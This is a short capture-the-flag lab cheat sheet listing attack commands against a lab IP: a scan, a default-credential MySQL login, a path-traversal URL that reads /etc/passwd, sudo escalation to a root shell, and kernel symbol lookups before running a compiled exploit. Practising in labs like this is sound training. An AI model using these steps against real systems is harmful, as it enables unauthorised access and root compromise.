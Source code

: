 # Nwk-ctf
Netwokr web and kernel ip:1.0.1.0.1
nmap -A 1.0.1.0.1

ftp 1.0.1.0.1

mysql -u admin -p123456 -h 1.0.1.0.1

http://1.0.1.0.1/index.php?page=../../../../etc/passwd

ssh ali@1.0.1.0.1

sudo -l

sudo bash

cat /proc/kallsyms | grep prepare_kernel_cred

cat /proc/kallsyms | grep commit_creds

gcc exploit.c -o exploit

./exploit
